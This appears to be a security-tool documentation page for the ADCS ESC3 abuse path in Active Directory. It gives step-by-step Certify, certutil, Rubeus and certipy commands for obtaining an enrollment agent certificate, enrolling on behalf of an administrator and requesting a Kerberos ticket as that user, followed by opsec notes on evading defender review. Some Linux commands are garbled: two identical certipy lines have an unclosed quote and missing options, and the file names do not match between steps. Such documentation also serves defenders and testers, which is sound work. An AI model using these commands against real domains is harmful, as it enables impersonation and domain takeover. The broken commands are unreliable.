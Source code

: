 ---
title: ADCSESC3
description: "The principal has permission to enroll on a certificate allowing them to obtain an enrollment agent
certificate."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

They also have permission to enroll for a certificate template that permits enrollment by
enrollment agents and can be used for authentication. Additionally, they also have enrollment
permissions for an enterprise CA with the necessary templates published. This enterprise CA is trusted
for NT authentication in the forest, along with the CA certificate chain up to the root CA certificate.
This setup lets the principal enroll certificates for any AD forest user or computer, enabling
authentication and impersonation of any AD forest user or computer without their credentials, unless the
target user or computer is protected by enrollment agent restrictions on the enterprise CA.

## Abuse Info

### Windows

Step 1: Use Certify to request an enrollment agent certificate.

```bash
Certify.exe request /ca:CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA /template:Vuln-EnrollmentAgent
```
If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Convert the emitted certificate to PFX format.

```bash
certutil.exe -MergePFX .\enrollmentcert.pem .\enrollmentcert.pfx
```
Step 3: Use the enrollment agent certificate to issue a certificate request on behalf of another user to a certificate template that allow for authentication and permit enrollment agent enrollment.

```bash
Certify.exe request /ca:CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA /template:User /onbehalfof:CORP\itadmin /enrollcert:enrollmentcert.pfx
```
Save the certificate as itadminenrollment.pem and the private key as itadminenrollment.key. If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the target principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. Choose another target with the given attribute set.

Step 4: Convert the emitted certificate to PFX format.

```bash
certutil.exe -MergePFX .\itadminenrollment.pem .\itadminenrollment.pfx
```
Step 5: Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the target identity to impersonate and the PFX-formatted certificate created in Step 4.

```bash
Rubeus.exe asktgt /user:itadmin /domain:corp.local /certificate:itadminenrollment.pfx
```
### Linux

Step 1: Use Certify to request an enrollment agent certificate.

```bash
certipy req -u 'user@corp.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name
```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Use the enrollment agent certificate to issue a certificate request on behalf of another user to a certificate template that allow for authentication and permit enrollment agent enrollment.

```bash
certipy req -u 'user@corp.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name
```
Save the certificate as itadminenrollment.pem and the private key as itadminenrollment.key. If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the target principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. Choose another target with the given attribute set.

Step 3: Request a ticket granting ticket (TGT) from the domain, specifying the target identity to impersonate and the PFX-formatted certificate created in Step 2.

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
```
## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Ce)
* [Certify](https://github.com/GhostPack/Certify)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cersod/97f47d4c-2901-41fa-9616-96b94e1b5435](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cersod/97f47d4c-2901-41fa-9616-96b94e1b5435)
